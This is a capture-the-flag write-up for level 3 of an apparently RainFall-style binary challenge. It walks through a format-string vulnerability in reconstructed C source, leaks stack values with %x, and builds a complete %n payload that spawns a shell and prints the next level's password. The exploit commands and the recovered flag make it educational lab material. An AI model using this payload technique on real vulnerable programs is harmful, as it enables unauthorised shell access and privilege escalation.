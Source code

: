 # Level 3

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdio.h>

int m;

void v(void)
{
    char buffer[512];
    fgets(buffer, 512, stdin);
    printf(buffer);

    if (m == 64)
    {
        fwrite("Wait what?!\n", 1, 12, stdout);
        system("/bin/sh");
    }
}

int main(void)
{
    v();
}
```

Let's focus on the `v` function. It reads input using the `fgets` function, which is known to be safe due to its mechanism to limit the number of bytes read. However the `printf` function is known to be unsafe when user input is passed as the format argument, it's referred to as a format string vulnerability.
> You can read more about format string vulnerabilities [here](https://owasp.org/www-community/attacks/Format_string_attack).

We notice from the C code that we'll have to somehow write 64 bytes to the `m` variable to spawn a shell. We can do this by exploiting the format string vulnerability, thanks to the `%n` format specifier, which writes the number of bytes written so far to the corresponding argument. We'll make sure the corresponding argument is the `m` variable's address.

Before crafting our payload, we have to locate our input string on the stack and determine the address of `m`.

To locate our input string on the stack, we send a string with format specifiers, specifically the %x specifier, to printf. This specifier prints the next argument as a hexadecimal value. Since we don't pass any arguments to `printf`, it will print the values on the stack:
```bash
level3@RainFall:~$ python -c 'print("%x %x %x")' | ./level3
200 b7fd1ac0 b7ff37d0
```

To pinpoint our input string on the stack, we need to precede our %x format specifiers with a dummy string:

```bash
level3@RainFall:~$ python -c 'print("AAAA %x %x %x %x")' | ./level3
AAAA 200 b7fd1ac0 b7ff37d0 41414141
```

In this output, 41414141, the hexadecimal representation of 'AAAA', is found at the fourth position.

The assembly code reveals that the address of the `m` variable is `0x804988c`.

We can then craft our payload:
```
address of m + padding + %n format specifier pointing to the fourth argument

"\x08\x04\x98\x8c"[::-1] + "0"*(64-4) + "%4$n"
```

Since we need to write 64 into `m`, we write 64 characters (4 from the address of `m` and 60 from the "0" padding). 
Then, we use the `%n` format specifier to record the count of bytes written so far into the fourth argument, which is `m`'s address.

Let's execute our payload:
```bash
level3@RainFall:~$ (python -c 'print("\x08\x04\x98\x8c"[::-1] + "0"*(64-4) + "%4$n")' && echo 'cat /home/user/level4/.pass') | ./level3
�000000000000000000000000000000000000000000000000000000000000
Wait what?!
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

We are now level4! Let's move on to the next level.

